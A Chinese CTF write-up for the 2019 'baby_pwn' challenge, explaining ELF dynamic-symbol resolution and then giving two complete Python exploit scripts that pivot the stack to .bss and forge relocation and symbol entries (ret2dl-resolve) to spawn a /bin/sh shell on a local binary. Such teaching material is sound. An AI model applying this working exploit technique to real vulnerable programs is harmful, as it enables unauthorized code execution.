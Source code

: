 ```yaml
---
title: baby_pwn
categories: 
- 2019信息安全竞赛
---
```

# baby_pwn

## 前言

今年信安竞赛的题，本以为是最简单的一道，结果发现做不来，最后查到这个就在ctf-wiki里，当时自己学wiki的时候这个高级ROP被跳过了。。恶补一下ret2dl-resolve的知识

## 程序逻辑

栈溢出，栈不可执行，没有泄露地址的函数

![main](./1.jpg)

## 背景知识

_dl_runtime_resolve函数是重定位的核心函数，这个函数会在进程运行的时候动态修改引用的函数地址，达到重定位的效果。使用
```bash
objdump ./pwn -d -j .plt
```
可以看到.plt这里会调用0x0804a008，在IDA里可以看到这里存放的是函数的plt表，函数表里存放got表指针，got表里存放的是函数执行的实际地址，在函数执行时才会放进去

![.plt](./2.jpg)

![dyn_table](./3.jpg)

### ELF动态链接的关键section

函数执行时涉及到的Section包括.dynamic、.dynstr、.dynsym、.rel.plt。使用
```bash
readelf -S ./pwn | grep 'dynamic'
```
可以查看其地址为0x08049f14，在IDA中看其内容，这个节中包含了动态链接的信息，需要关注的是DT_STRTAB, DT_SYMTAB, DT_JMPREL这三项，这三个东西分别包含了指向.dynstr, .dynsym, .rel.plt这3个section的指针

![.dynamic](./4.jpg)

.rel.plt是重定位表，它的每一个成员都是一个结构体，其结构如下：

```c
typedef struct
{
  Elf32_Addr    r_offset; //指向GOT表的指针
  Elf32_Word    r_info;   //r_info >> 8 作为.dynsym的下标去寻找Elf32_Sym的指针
} Elf32_Rel;
```

在函数执行过程中会先用.rel.plt得到函数重定位表项的指针Elf32_Rel，之后rel->r_info >> 8作为.dynsym的下标，求出当前函数的符号表项Elf32_Sym的指针

![.rel.plt](./5.jpg)

.dynsym是符号表数组，每一个表项是一个结构体，其结构如下：

```c
typedef struct
{
  Elf32_Word    st_name; //符号名，是相对.dynstr起始的偏移，这种引用字符串的方式在前面说过了
  Elf32_Addr    st_value;
  Elf32_Word    st_size;
  unsigned char st_info; //对于导入函数符号而言，它是0x12
  unsigned char st_other;
  Elf32_Section st_shndx;
}Elf32_Sym; //对于导入函数符号而言，其他字段都是0
```
这里的st_name比较重要，函数执行到最后会用.dynstr + sym->st_name得出符号名字符串指针，在动态链接库查找这个函数的地址，并且把地址赋值给*rel->r_offset，即GOT表，最终调用这个函数

![.dynsym](./6.jpg)

.dynstr存放各种字符串，以'\x00'结尾，在使用过程中按照相对于其基地址的偏移寻址

![.dynstr](./7.jpg)

### 小结

_dl_runtime_resolve函数执行过程：

1. 用link_map访问.dynamic，取出.dynstr, .dynsym, .rel.plt的指针

2. .rel.plt+第二个参数(rel偏移)得到的结果作为rel表项结构体Elf32_Rel的指针，这里记作rel

3. rel->r_info >> 8作为.dynsym下标，求出当前函数符号表项Elf32_Sym的指针，记作sym

4. .dynstr + sym->st_name得出符号名字符串指针

5. 在动态链接库查找这个函数的地址，并且把地址赋值给*rel->r_offset，即GOT表

6. 调用这个函数

## 漏洞利用

wiki里从简单到复杂讲了很多种攻击方式，这里可以用的是最后一种，我们先使用栈迁移将ROP代码放到bss段，然后在bss上构造假的rel和sym，rel的r_info为fake_sym与.dynsym的距离，r_offset为read或者alarm，fake_sym的st_name为bss上的'system\x00'与.dynstr的距离，bss上写入'/bin/sh\x00'，传地址进去，这里需要注意的是要在bss_addr+0x800的地方写入数据，为了给函数执行腾出空间

## exp.py

```py
#coding=utf-8
from time import sleep
from pwn import *
debug = 1
context.update(arch='i386',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
p = process('./pwn')
elf = ELF('./pwn')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:
    gdb.attach(p,'b* 0x804854a')

def exp():
    rop = ROP('./pwn')
    bss_addr = elf.bss()
    log.success('bss addr => ' + hex(bss_addr))
    offset = 0x2c
    #migration 
    base_stage = bss_addr + 0x800
    rop.raw('a'*offset)
    rop.read(0,base_stage,100)
    rop.migrate(base_stage)
    p.sendline(rop.chain())
    #
    rop = ROP('./pwn')
    sh = '/bin/sh'
    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
    dynstr = elf.get_section_by_name('.dynstr').header.sh_addr
    #design 
    fake_rel_addr = base_stage + 24
    fake_sym_addr = base_stage + 32
    #size of SYM is 0x10
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (fake_sym_addr - dynsym) / 0x10 
    r_info = (index_dynsym << 8) | 0x7
    fake_rel = flat([elf.got['read'],r_info])
    index_rel = (fake_rel_addr-rel_plt) 
    st_name = fake_sym_addr + 0x10 - dynstr
    fake_sym = flat([st_name,0,0,0x12])
    rop.raw(plt0)
    rop.raw(index_rel)#rel offset
    rop.raw('bbbb')#retn addr
    rop.raw(base_stage+82)#binsh_addr
    rop.raw('bbbb')#0
    rop.raw('cccc')#0
    rop.raw(fake_rel)
    rop.raw('a'*align)
    rop.raw(fake_sym)
    rop.raw('system\x00')
    rop.raw((80-len(rop.chain()))*'b')
    rop.raw(sh+'\x00')
    raw_input()
    p.send(rop.chain())
    
    p.interactive()

exp()

```
此外还可以用roputil直接得到填充数据

```py
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
r = process('./pwn')
context.log_level = 'debug'

rop = ROP('./pwn')
offset = 0x2c
bss_base = rop.section('.bss')
buf = rop.fill(offset)

buf += rop.call('read', 0, bss_base, 100)
## used to call dl_Resolve()
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
## used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()

```


## 参考

[pediy](https://bbs.pediy.com/thread-227034.htm)

[ctf-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/advanced-rop/#_5)

